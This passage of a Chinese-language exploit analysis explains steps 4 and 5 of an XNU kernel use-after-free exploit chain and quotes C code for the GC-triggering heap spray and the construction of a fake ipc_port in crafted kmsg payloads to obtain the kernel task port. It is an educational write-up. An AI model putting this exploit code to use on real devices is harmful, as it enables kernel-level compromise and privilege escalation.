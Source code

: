 
#### 4. 触发gc，使得page能够跨zone被重新使用  
目前上述的page里面的ipc_port已经全部被释放了，只留下一个first_port作为dangling pointer还指向page中的目标ipc_port，后面就可以用一些有目的性的内容重用这个page了（主要指的是重用目标ipc_port内存）。  
但和普通的UAF不一样的是，并不能直接分配一块大小相近的内存来重用，原因是这个page属于特定的ipc port zone。为了能重用到这块page，我们需要触发gc(garbage collection)将其从ipc port zone中释放出来。  
```C
  // free the smaller ports, they will get gc'd later:
  for (int i = 0; i < n_smaller_ports; i++) {
    mach_port_destroy(mach_task_self(), smaller_ports[i]);
  }

  
  // now try to get that zone collected and reallocated as something controllable (kalloc.4096):

  const int replacer_ports_limit = 200; // about 200 MB
  mach_port_t replacer_ports[replacer_ports_limit];
  memset(replacer_ports, 0, sizeof(replacer_ports));
  uint32_t i;
  for (i = 0; i < replacer_ports_limit; i++) {
    uint64_t context_val = (context_magic)|i;
    *context_ptr = context_val;
    replacer_ports[i] = send_kalloc_message(replacer_message_body, replacer_body_size);
    
    // we want the GC to actually finish, so go slow...
    pthread_yield_np();
    usleep(10000);
    printf("%d\n", i);
  }
```
作者在触发gc前，提前申请了150MB的数据，这里将其全部释放以供gc使用；然后慢慢重新分配内存，这些内存全部填充了准备好的ipc_kmsg内容，注意每申请1MB就需要等10ms。  
    
#### 5. 使用构造的ipc_kmsg重用page，ipc_kmsg将用fake_port填充page  
第4步中，提到触发gc时，用精心构造的ipc_kmsg重用page，这里很关键，这些数据是为tfp0准备的。上面的代码中可以看到，replacer_message_body即是构造好的数据。主要由`build_message_payload`函数构造：  
```C
  uint8_t* replacer_message_body = build_message_payload(first_port_address, replacer_body_size, message_body_offset, 0, 0, &context_ptr);
  printf("replacer_body_size: 0x%x\n", replacer_body_size);
  printf("message_body_offset: 0x%x\n", message_body_offset);
```

build_message_payload函数主要是在一个page大小内构造了fake_port和fake_task。    
```C
uint8_t* build_message_payload(uint64_t dangling_port_address, uint32_t message_body_size, uint32_t message_body_offset, uint64_t vm_map, uint64_t receiver, uint64_t** context_ptr) {
  uint8_t* body = malloc(message_body_size);
  memset(body, 0, message_body_size);
  
  uint32_t port_page_offset = dangling_port_address & 0xfff;
  
  // structure required for the first fake port:
  uint8_t* fake_port = body + (port_page_offset - message_body_offset);

  
  *(uint32_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IO_BITS)) = IO_BITS_ACTIVE | IKOT_TASK;
  *(uint32_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IO_REFERENCES)) = 0xf00d; // leak references
  *(uint32_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IP_SRIGHTS)) = 0xf00d; // leak srights
  *(uint64_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IP_RECEIVER)) = receiver;
  *(uint64_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IP_CONTEXT)) = 0x123456789abcdef;
  
  *context_ptr = (uint64_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IP_CONTEXT));
  
  
```